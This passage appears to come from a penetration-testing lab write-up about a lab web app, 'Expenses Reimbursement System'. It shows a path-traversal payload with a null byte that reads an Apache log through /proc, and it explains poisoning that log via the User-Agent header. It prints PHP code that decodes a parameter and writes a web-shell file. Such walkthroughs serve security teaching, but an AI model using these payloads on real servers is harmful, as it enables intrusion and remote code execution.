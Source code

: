 Content-Length: 4970344


&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
&lt;head>
&lt;meta http-equiv="content-type" content="text/html; charset=ISO-8859-1">
&lt;title>Expenses Reimbursement System @TryHarder.local&lt;/title>
&lt;/head>
[.....]
&lt;p>&lt;h3>&lt;strong>Welcome ../../../../../proc/6642/fd/9%00&lt;/strong>&lt;/h3>&lt;/p>&lt;p>&lt;h3>This is your personal space, you can post your comments and list your monthly report:&lt;/h3>&lt;/p>&lt;p>&lt;pre>192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
</pre>

<p style="text-align:justify;">
As we look closely at the response above, we can realize that the <b>/proc/6642/fd/9</b> file contains logs regarding the HTTP Agent header. This evidence explains that we might have the ability to inject php code inside the apache log file of the target server using the agent header. The code that will be injected to the apache log file is the following
</p>

```php
<?php $data=base64_decode($_GET['cmd']);
$file=fopen('./data/yolo.php','w');
fwrite($file,$data);fclose($file);phpinfo();?>
``` 

<p style="text-align:justify;">
The above php script when executed will introduce a new url parameter called <code>cmd</code>. Afterwards, an encoded php payload will be provided at the <b>cmd</b> parameter, which will then be decoded at the server side and will also be written inside a file called <code>yolo.php</code>. Afterwards the <code>phpinfo()</code> will be invoked just to make sure the payload has been succesfully executed.    
</p>

<p style="text-align:justify;">
The following payload will be used as our file uploader on the server. This script will be provided in the newly introduced <code>cmd</code> parameter in <b>Base64</b> encoded form. Before we upload the payload on the server we must encode it using <b>Base64</b> as well as URL encoding 
</p>
